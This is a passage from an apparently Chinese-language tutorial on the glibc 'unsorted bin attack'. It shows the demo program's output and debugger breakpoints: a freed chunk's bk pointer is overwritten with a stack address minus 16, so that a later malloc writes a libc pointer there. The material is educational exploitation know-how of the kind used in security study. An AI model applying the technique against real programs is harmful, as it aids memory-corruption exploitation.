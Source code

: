 ### <a class="reference-link" name="%E8%BF%90%E8%A1%8C%E7%BB%93%E6%9E%9C"></a>运行结果

```
This file demonstrates unsorted bin attack by write a large unsigned long value into stack
In practice, unsorted bin attack is generally prepared for further attacks, such as rewriting the global variable global_max_fast in libc for further fastbin attack

Let's first look at the target we want to rewrite on stack:
0x7ffdabb6d048: 0

Now, we allocate first normal chunk on the heap at: 0x16d6010
And allocate another normal chunk in order to avoid consolidating the top chunk withthe first one during the free()

We free the first chunk now and it will be inserted in the unsorted bin with its bk pointer point to 0x7fb225384b78
Now emulating a vulnerability that can overwrite the victim-&gt;bk pointer
And we write it with the target address-16 (in 32-bits machine, it should be target address-8):0x7ffdabb6d038

Let's malloc again to get the chunk we just free. During this time, the target should have already been rewritten:
0x7ffdabb6d048: 0x7fb225384b78
```

### <a class="reference-link" name="%E8%B0%83%E8%AF%95"></a>调试

断点位置

```
9   unsigned long stack_var=0;
 ► 10         fprintf(stderr, "Let's first look at the target we want to rewrite on stack:n");

 ► 13         unsigned long *p=malloc(400);

 ► 17   malloc(500);

   19   free(p);
 ► 20         fprintf(stderr, "We free the first chunk now and it will be inserted in the unsorted bin with its bk pointer "

   25   p[1]=(unsigned long)(&amp;stack_var-2);
 ► 26         fprintf(stderr, "Now emulating a vulnerability that can overwrite the victim-&gt;bk pointern");

   31   malloc(400);
 ► 32         fprintf(stderr, "Let's malloc again to get the chunk we just free. During this time, the target should have already been "
```

下面我们直接运行看下,首先给定义变量stack_var,赋初值为0
